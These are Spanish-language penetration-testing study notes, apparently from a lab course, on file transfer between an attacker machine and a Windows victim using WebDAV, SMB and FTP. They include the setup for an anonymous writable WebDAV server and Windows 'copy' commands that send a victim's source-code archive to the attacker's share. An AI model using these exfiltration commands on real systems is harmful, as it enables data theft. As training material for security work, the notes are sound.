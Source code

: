 Actores:

|Rol|Descripción|
|---|---|
|**Atacante**|Máquina que quiere subir/descargar archivos usando WebDAV o SMB. En este ejemplo: `192.168.49.128` (servidor WebDAV) y `192.168.49.129` (opcional para SMB).|
|**Víctima**|Máquina Windows que se conecta al recurso compartido para acceder o subir archivos: `C:\htb` en los ejemplos.|

> Nota: en un escenario de pruebas de penetración, **el atacante controla el servidor** y la víctima es la máquina que se conecta al recurso.

---

##### 1.  Instalación y ejecución de WebDAV en la máquina atacante
1. **Instalar módulos Python necesarios** (en máquina atacante):
```
sudo apt install pipx
pipx ensurepath 
pipx install wsgidav
pipx inject wsgidav cheroot lxml
```

2. **Ejecutar el servidor WebDAV**:    
    `sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`
    - `--root=/tmp`: carpeta compartida.
    - `--auth=anonymous`: acceso anónimo (para pruebas).
    - Advertencias importantes:
        - **SSL recomendado** si se activa autenticación.
        - Acceso anónimo: la raíz (`/`) permite **escritura**, `/dir_browser` permite **solo lectura**.
##### 2. Conexión desde la máquina víctima (Windows)
- **Acceder a la raíz del servidor WebDAV**:
    `dir \\192.168.49.128\DavWWWRoot`
    - `DavWWWRoot` es una palabra clave especial del shell de Windows que apunta a la raíz del WebDAV.
    - También se puede apuntar a carpetas existentes:
        `\\192.168.49.128\sharefolder`

- **Subir archivos al servidor WebDAV**:
    `copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.128\DavWWWRoot\ copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.128\sharefolder\`
##### 3. Alternativa SMB
- Si no hay bloqueos de SMB (TCP/445), se puede usar **SMB directamente** desde la máquina atacante usando `impacket-smbserver`.
- Esto sirve para subir o descargar archivos de la misma manera que WebDAV, pero usando SMB nativo.

-------------

# Subidas de archivos mediante FTP – Apuntes
##### 1. Contexto
- FTP permite **subir y descargar archivos** entre máquinas.
- Similar a SMB/WebDAV, pero utiliza el puerto **TCP/21**.
- Para permitir subidas, el servidor FTP debe habilitar permisos de escritura (`--write`).
